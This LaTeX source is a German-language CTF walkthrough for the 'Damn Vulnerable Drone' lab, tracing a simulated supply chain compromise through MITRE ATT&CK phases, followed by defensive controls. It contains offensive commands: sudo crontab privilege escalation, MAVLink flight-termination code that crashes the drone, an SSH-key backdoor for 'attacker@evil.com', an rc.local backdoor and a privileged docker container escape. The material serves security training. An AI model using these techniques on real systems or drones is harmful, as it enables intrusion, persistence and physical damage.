\documentclass[11pt,a4paper]{article}
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage{geometry}
\usepackage{fancyhdr}
\usepackage{graphicx}
\usepackage{xcolor}
\usepackage{listings}
\usepackage{hyperref}
\usepackage{tikz}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}

\geometry{margin=2.5cm}

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}

\lstset{style=mystyle}

\pagestyle{fancy}
\fancyhf{}
\rhead{Damn Vulnerable Drone}
\lhead{Supply Chain Compromise CTF}
\rfoot{Page \thepage}

\begin{document}

\title{\textbf{Damn Vulnerable Drone} \\ Supply Chain Compromise CTF \\ \large{Technical Walkthrough}}
\author{Cybersecurity Education Platform}
\date{\today}

\maketitle

\tableofcontents
\newpage

\section{Einführung}

Das \textbf{Damn Vulnerable Drone (DVD)} CTF-Szenario demonstriert einen realistischen Supply Chain Compromise, der verschiedene Phasen des MITRE ATT\&CK Frameworks abbildet. Dieses Dokument bietet eine detaillierte technische Anleitung zur Durchführung der Challenge.

\subsection{Überblick des Szenarios}

Die Challenge simuliert eine Entwicklungsumgebung für Drohnensoftware, in der Teilnehmer:
\begin{itemize}
    \item Zugriff auf eine niedrig privilegierte Entwicklermaschine erhalten
    \item Schwachstellen in der Build-Pipeline ausnutzen
    \item Eine Supply Chain Compromise durchführen
    \item Kritische Drohneninfrastruktur kompromittieren
    \item Eine Drohnensimulation zum Absturz bringen
\end{itemize}

\subsection{Lernziele}

Nach Abschluss dieser Challenge verstehen die Teilnehmer:
\begin{itemize}
    \item Wie Supply Chain Angriffe in Entwicklungsumgebungen durchgeführt werden
    \item Die Ausnutzung von Cron-basierten Privilege Escalation Techniken
    \item Die Manipulation von Build-Systemen und Deployment-Pipelines
    \item Die realen Auswirkungen von kompromittierten Softwarekomponenten
\end{itemize}

\section{Systemarchitektur}

\subsection{Container-Übersicht}

Das DVD-System besteht aus drei Hauptkomponenten:

\begin{enumerate}
    \item \textbf{Developer Machine} (\texttt{dev-workstation})
    \begin{itemize}
        \item Niedrig privilegierter Entwicklerzugang
        \item Build-Tools und Entwicklungsumgebung
        \item Schwachstelle: Sudo-Zugriff auf \texttt{crontab}
    \end{itemize}
    
    \item \textbf{Ground Control Station} (\texttt{ground-control})
    \begin{itemize}
        \item Hauptsteuerungssystem für Drohnenoperationen
        \item Überwacht gemeinsame Build-Artefakte
        \item Deployment-Target für kompromittierte Software
    \end{itemize}
    
    \item \textbf{Damn Vulnerable Drone} (\texttt{drone-01})
    \begin{itemize}
        \item Drohnensimulation mit MAVLink-Protokoll
        \item Führt Return-to-Land (RTL) Operationen aus
        \item Ziel der Supply Chain Compromise
    \end{itemize}
\end{enumerate}

\subsection{Netzwerktopologie}

\begin{figure}[h]
\centering

\begin{tikzpicture}[node distance=3cm]
    % Define nodes
    \node[draw, rectangle, minimum width=3cm, minimum height=1.5cm] (dev) {Developer\\Machine\\(172.20.0.2)};
    \node[draw, rectangle, minimum width=3cm, minimum height=1.5cm, right of=dev] (gcs) {Ground Control\\Station\\(172.20.0.3)};
    \node[draw, rectangle, minimum width=3cm, minimum height=1.5cm, right of=gcs] (drone) {Drone\\Simulation\\(172.20.0.4)};
    
    % Define connections
    \draw[<->] (dev) -- (gcs) node[midway, above] {Shared Builds};
    \draw[<->] (gcs) -- (drone) node[midway, above] {MAVLink};
    \draw[<->, dashed] (dev) -- (drone) node[midway, below] {Network Access};
\end{tikzpicture}
\caption{DVD Netzwerkarchitektur}
\end{figure}

\section{Phase 1: Initial Access}

\subsection{MITRE ATT\&CK Mapping}
\textbf{Technik:} T1078 - Valid Accounts

\subsection{Zugriff auf die Entwicklermaschine}

Der erste Schritt besteht darin, Zugang zur Entwicklerumgebung zu erlangen:

\begin{lstlisting}[language=bash, caption=Containerstart und Zugriff]
# Starten des gesamten DVD-Systems
docker-compose up -d

# Verbindung zur Entwicklermaschine
docker exec -it dvd-developer-machine /bin/bash

# Anmeldung als Developer
su - developer
# Passwort: dev123
\end{lstlisting}

\subsection{Initiale Systemerkundung}

Nach erfolgreicher Anmeldung sollten folgende Schritte durchgeführt werden:

\begin{lstlisting}[language=bash, caption=Grundlegende Systemerkundung]
# Aktuelles Verzeichnis und Benutzerkontext
pwd
whoami
id

# Verfügbare Netzwerkverbindungen
ping -c 3 ground-control
ping -c 3 drone-01

# Überprüfung der Netzwerkkonfiguration
ip addr show
route -n
\end{lstlisting}

\section{Phase 2: Discovery}

\subsection{MITRE ATT\&CK Mapping}
\textbf{Technik:} T1083 - File and Directory Discovery

\subsection{Dokumentationsanalyse}

Untersuchen Sie die verfügbaren Dokumentationen:

\begin{lstlisting}[language=bash, caption=Dokumentationsreview]
# Navigation zum Dokumentationsverzeichnis
cd /home/developer/Documents/

# Lesen der verfügbaren Hinweise
cat README.txt
cat known_issues.txt

# Exploration der Projektverzeichnisse
ls -la /home/developer/projects/
python3 /home/developer/projects/drone_dev.py
\end{lstlisting}

\subsection{Build-System-Analyse}

Identifizierung des Build-Systems und potenzieller Angriffsvektoren:

\begin{lstlisting}[language=bash, caption=Build-System-Erkundung]
# Untersuchung des /opt/ Verzeichnisses
ls -la /opt/
ls -la /opt/shared-builds/

# Analyse des Build-Update-Skripts
cat /opt/build-update.sh

# Überprüfung der aktuellen RTL-Implementierung
cat /opt/shared-builds/return-to-land.py
\end{lstlisting}

\subsection{Privilege-Analyse}

Ermittlung verfügbarer Privilegien und Schwachstellen:

\begin{lstlisting}[language=bash, caption=Privilege-Enumeration]
# Überprüfung der sudo-Berechtigungen
sudo -l

# Analyse der Cron-Konfiguration
crontab -l 2>/dev/null || echo "Keine Cron-Jobs konfiguriert"

# Systembenutzer und Gruppen
groups
cat /etc/passwd | grep developer
\end{lstlisting}

\section{Phase 3: Privilege Escalation}

\subsection{MITRE ATT\&CK Mapping}
\textbf{Technik:} T1053.003 - Scheduled Task/Job: Cron

\subsection{Cron-basierte Privilege Escalation}

Die kritische Schwachstelle liegt in der sudo-Berechtigung für \texttt{crontab}:

\begin{lstlisting}[language=bash, caption=Cron-Job-Konfiguration]
# Erstellen eines malicious Cron-Jobs
sudo crontab -e

# Fügen Sie folgende Zeile hinzu:
# */2 * * * * /opt/build-update.sh

# Verifikation der Cron-Job-Installation
sudo crontab -l
\end{lstlisting}

\textbf{Erklärung:} Dieser Cron-Job wird alle 2 Minuten als root ausgeführt und führt das Build-Update-Skript aus, welches die legitime RTL-Komponente mit einer kompromittierten Version ersetzt.

\subsection{Monitoring der Compromise}

Überwachung des Supply Chain Compromise-Prozesses:

\begin{lstlisting}[language=bash, caption=Kompromittierungs-Monitoring]
# Kontinuierliche Überwachung der RTL-Datei
watch -n 10 "ls -la /opt/shared-builds/return-to-land.py && echo '---' && head -10 /opt/shared-builds/return-to-land.py"

# Alternative: Systemlog-Monitoring
tail -f /var/log/syslog | grep CRON
\end{lstlisting}

\section{Phase 4: Supply Chain Compromise}

\subsection{MITRE ATT\&CK Mapping}
\textbf{Technik:} T1195.002 - Compromise Software Supply Chain

\subsection{Analyse der kompromittierten Komponente}

Nach der automatischen Ausführung des Cron-Jobs wird die RTL-Komponente ersetzt:

\begin{lstlisting}[language=python, caption=Kompromittierte RTL-Implementierung]
def send_flight_termination_command(master):
    """Send flight termination command to force the drone 
       to shut down in mid-air."""
    master.mav.command_long_send(
        master.target_system,
        master.target_component,
        mavutil.mavlink.MAV_CMD_DO_FLIGHTTERMINATION,
        0,  # Confirmation
        1,  # Param1: 1 to initiate flight termination
        0, 0, 0, 0, 0, 0  # Other params unused
    )
    print("CRITICAL: Flight termination command sent")
\end{lstlisting}

\subsection{Deployment-Verifikation}

Überprüfung der erfolgreichen Kompromittierung:

\begin{lstlisting}[language=bash, caption=Deployment-Verifikation]
# Überprüfung der modifizierten RTL-Datei
cat /opt/shared-builds/return-to-land.py | grep -A 5 "flight_termination"

# Verifikation der Deployment-Logs im Ground Control System
docker logs dvd-ground-control | grep "RTL module"
\end{lstlisting}

\section{Phase 5: Impact}

\subsection{MITRE ATT\&CK Mapping}
\textbf{Technik:} T1485 - Data Destruction

\subsection{Drohnen-Crash-Simulation}

Ausführung der kompromittierten RTL-Komponente:

\begin{lstlisting}[language=bash, caption=RTL-Ausführung und Crash-Simulation]
# Direkte Ausführung der kompromittierten RTL
python3 /opt/shared-builds/return-to-land.py

# Alternative: Über das Ground Control System
docker exec -it dvd-ground-control python3 /return-to-land.py
\end{lstlisting}

\subsection{Flag-Extraktion}

Bei erfolgreichem Crash wird die Flag angezeigt:

\begin{verbatim}
Connected to drone via ground control
CRITICAL: Flight termination command sent - simulating crash

[DRONE CRASHED] Root Flag: DVD{supply_ch41n_c0mpr0m153_1s_r34l_7hr347}
\end{verbatim}

\section{Defensive Maßnahmen}

\subsection{Präventive Kontrollen}

\subsubsection{Principle of Least Privilege}
\begin{itemize}
    \item Minimierung der sudo-Berechtigungen für Entwicklerkonten
    \item Implementierung von Just-in-Time (JIT) Access
    \item Regelmäßige Überprüfung und Audit von Berechtigungen
\end{itemize}

\subsubsection{Supply Chain Security}
\begin{lstlisting}[language=bash, caption=Code-Integrity-Monitoring]
# AIDE für File Integrity Monitoring
sudo apt-get install aide
sudo aide --init
sudo aide --check

# Git-Hook für Code-Signierung
git config --global commit.gpgsign true
git config --global user.signingkey YOUR_GPG_KEY
\end{lstlisting}

\subsection{Detective Kontrollen}

\subsubsection{Kontinuierliches Monitoring}
\begin{lstlisting}[language=bash, caption=Monitoring-Implementierung]
# Auditd für Systemüberwachung
sudo auditctl -w /etc/crontab -p wa -k cron_changes
sudo auditctl -w /opt/ -p wa -k build_changes

# Process-Monitoring
sudo auditctl -a always,exit -F arch=b64 -S execve -k exec_monitor
\end{lstlisting}

\subsubsection{Log-Analyse}
\begin{itemize}
    \item Zentralisierte Log-Sammlung mit ELK Stack
    \item Anomalie-Erkennung für Build-Prozesse
    \item Alerting bei unautorisierten Cron-Job-Änderungen
\end{itemize}

\section{Erweiterte Angriffsvektoren}

\subsection{Persistenz-Mechanismen}

Alternative Methoden zur Aufrechterhaltung des Zugriffs:

\begin{lstlisting}[language=bash, caption=Persistenz-Techniken]
# SSH-Key-Implantation
echo "ssh-rsa AAAAB3... attacker@evil.com" >> ~/.ssh/authorized_keys

# Systemd-Service-Erstellung
sudo systemctl enable malicious-service
sudo systemctl start malicious-service

# Init-Script-Modifikation
echo "/opt/backdoor.sh &" >> /etc/rc.local
\end{lstlisting}

\subsection{Lateral Movement}

Bewegung innerhalb der DVD-Infrastruktur:

\begin{lstlisting}[language=bash, caption=Lateral Movement]
# Container-Escape-Techniken
docker run --rm -it --pid host --net host --privileged \
  -v /:/host ubuntu chroot /host

# Network-Discovery
nmap -sn 172.20.0.0/16
nmap -sS -O 172.20.0.3
\end{lstlisting}

\section{Troubleshooting}

\subsection{Häufige Probleme}

\subsubsection{Cron-Service-Probleme}
\begin{lstlisting}[language=bash, caption=Cron-Debugging]
# Service-Status überprüfen
sudo systemctl status cron

# Service neu starten
sudo systemctl restart cron

# Cron-Logs analysieren
sudo tail -f /var/log/syslog | grep CRON
\end{lstlisting}

\subsubsection{Netzwerkverbindungsprobleme}
\begin{lstlisting}[language=bash, caption=Netzwerk-Debugging]
# Container-Netzwerk überprüfen
docker network ls
docker network inspect dvd_dvd-network

# Container-Konnektivität testen
docker exec dvd-developer-machine ping -c 3 ground-control
\end{lstlisting}

\subsubsection{Permission-Probleme}
\begin{lstlisting}[language=bash, caption=Permission-Debugging]
# Datei-Berechtigungen überprüfen
ls -la /opt/build-update.sh
sudo chmod +x /opt/build-update.sh

# SELinux/AppArmor-Status (falls aktiviert)
getenforce
aa-status
\end{lstlisting}

\section{Fazit}

Das Damn Vulnerable Drone CTF-Szenario bietet eine realistische Simulation eines Supply Chain Compromise, der die kritische Bedeutung von:

\begin{itemize}
    \item Sicheren Entwicklungsumgebungen
    \item Principle of Least Privilege
    \item Kontinuierlichem Monitoring
    \item Supply Chain Security
\end{itemize}

demonstriert. Die Challenge zeigt, wie scheinbar harmlose Berechtigungen (sudo crontab) zu einer vollständigen Kompromittierung kritischer Infrastruktur führen können.

\subsection{Weiterführende Ressourcen}

\begin{itemize}
    \item MITRE ATT\&CK Framework: \url{https://attack.mitre.org/}
    \item NIST Cybersecurity Framework: \url{https://www.nist.gov/cyberframework}
    \item OWASP Top 10 für Container: \url{https://owasp.org/www-project-container-top-10/}
    \item MAVLink Protocol Documentation: \url{https://mavlink.io/}
\end{itemize}

\end{document}